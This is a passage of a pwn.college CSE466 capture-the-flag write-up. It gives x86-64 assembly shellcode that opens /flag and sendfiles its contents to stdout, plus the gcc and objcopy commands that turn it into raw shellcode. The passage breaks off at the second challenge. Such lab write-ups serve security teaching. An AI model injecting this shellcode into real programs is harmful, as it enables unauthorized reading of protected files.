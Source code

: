 # pwn.college
## CSE466
### Shell
#### 1

We are asked to receive the flag in '/flag'. First, we write the assembly code corresponding to the shellcode that we want to generate:

```asm
.global _start


_start:
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```

Than, we need to compile it and dump its `.text` section with `objcopy`:

```
gcc -no-pie -nostdlib -o 1 1.s
objcopy -O binary --only-section=.text 1 1.raw
```

Now, all we need to do is provide this 1.raw as input to the binary and we get the flag!

#### 2
Our solutio